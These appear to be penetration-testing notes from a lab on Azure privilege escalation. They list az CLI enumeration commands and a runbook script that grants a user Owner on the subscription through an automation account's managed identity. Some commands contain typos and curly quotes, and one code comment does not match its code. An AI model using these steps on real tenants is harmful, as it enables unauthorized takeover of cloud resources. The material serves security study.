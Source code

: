 
> *We found that the Identity has **Role: Contributor** it can be checked in the **RoleDefinitionName** option*

> *Contributor is like Editor in GCP. Except from Role Assignment it can do everything*



Enumerate Automation Account - its a path to escalate to **Owner**:
```powershell
az automation account list
```

Enumerate Identities:

```powershell
az identity list
```

Grab the principalID of the identity and check the Role Assignment:
```powershell
az role assignment list --assignee “<principalId>” --all
```

**Perform Operation on Automation Account**

List runbook:
```powershell
az automation runbook list --automation-account-name “<name>” --resource-group “<RG>”
```

AutomationAccountPrivesc.ps1
```powershell
# Exemple of runbook

# Enable appropriate RBAC permissions to the system identity of this automation account. Otherwise, the runbook will fail

try
{
  Connect-AzAccount -Identity
}
catch {
  throw $_.Exception
}

# Get all ARM resources from all resources groups
New-AzRoleAssignment -ObjectId “objID of your user” -RoleDefinitionName Owner -Scope “/subscriptions/<subscription ID>”
```

## Now create a runbook and upload the powershell code to be executed


```powershell
az automation runbook create --automation-account-name “...” --resource-grouop “...” --name “privesc” --type “Powershell” --location “East US”
az automation runbook replace-content --automation-account-name “...” --resource-group “...” --name “privesc” --content AutomationAccountPrivesc.ps1
az automation runbook publish --automation-account-name “...” --resource-group “...” --name “privesc”
az automation runbook show --automation-account-name “...” --resource-group “...” --name “privesc” 
```
